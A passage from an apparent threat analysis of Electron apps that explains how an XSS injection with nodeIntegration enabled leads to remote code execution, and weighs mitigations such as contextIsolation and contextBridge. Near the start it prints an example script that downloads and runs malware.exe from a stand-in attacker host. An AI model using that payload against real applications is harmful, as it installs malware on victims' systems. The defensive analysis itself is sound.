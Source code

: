     ```html
    <script>
    const { exec } = require('child_process');
    exec('curl http://attacker.com/malware.exe -o malware.exe && malware.exe', (error, stdout, stderr) => {
      // (Optional) Send exfiltration data to attacker.com
    });
    </script>
    ```
3.  **Victim Action:** A victim opens the application and views the comments.
4.  **Exploitation:** The victim's renderer process executes the attacker's injected script.
    *   The `require('child_process')` line imports the Node.js `child_process` module.
    *   The `exec(...)` function executes a shell command.  In this example, it downloads a malicious executable (`malware.exe`) from the attacker's server and runs it.
5.  **Impact:** The attacker's malware is now running on the victim's system, potentially with the privileges of the Electron application.

### 2.4. Mitigation Strategies Analysis

Let's analyze the effectiveness and limitations of each mitigation strategy:

*   **Disable `nodeIntegration` ( `nodeIntegration: false` ):**
    *   **Effectiveness:**  This is the *most effective* mitigation.  It completely removes the renderer's access to Node.js APIs, preventing the injected JavaScript from executing arbitrary code.
    *   **Limitations:**  If the application *requires* Node.js functionality in the renderer, this option is not viable without significant refactoring.  The application must be redesigned to use a `preload` script and `contextBridge` to expose only necessary functionality.
    *   **Bypass:**  None.  This is a fundamental security control.

*   **Enable `contextIsolation` ( `contextIsolation: true` ):**
    *   **Effectiveness:**  `contextIsolation` creates a separate JavaScript context for the `preload` script.  This prevents the renderer's main world (where attacker-injected code would run) from directly accessing objects and functions defined in the `preload` script.  This makes it much harder for an attacker to tamper with the `preload` script or access Node.js APIs exposed through it.  It's a crucial defense-in-depth measure.
    *   **Limitations:**  `contextIsolation` does *not* prevent the renderer from accessing Node.js APIs if `nodeIntegration` is enabled.  It only protects the `preload` script's context.  It also doesn't prevent XSS; it only limits the damage an XSS vulnerability can cause *if* `nodeIntegration` is false or carefully managed.
    *   **Bypass:**  If `nodeIntegration` is `true`, `contextIsolation` provides no protection against this specific RCE threat.

*   **Use a `preload` script and `contextBridge`:**
    *   **Effectiveness:**  This is the recommended approach when Node.js functionality is needed in the renderer.  The `preload` script runs in a privileged context (with access to Node.js) but, with `contextIsolation: true`, its context is isolated from the renderer.  The `contextBridge` API allows the `preload` script to selectively expose specific functions or objects to the renderer.  This allows for fine-grained control over what the renderer can access, minimizing the attack surface.
    *   **Limitations:**  Requires careful design and implementation.  Exposing too much functionality, or exposing functions in an insecure way, can still create vulnerabilities.  Developers must carefully vet the APIs they expose.  It also doesn't prevent XSS itself.
    *   **Bypass:**  Vulnerabilities in the exposed APIs themselves, or improper use of `contextBridge`, could allow an attacker to gain more access than intended.  For example, exposing a function that takes an arbitrary string and executes it as a shell command would be a critical vulnerability.
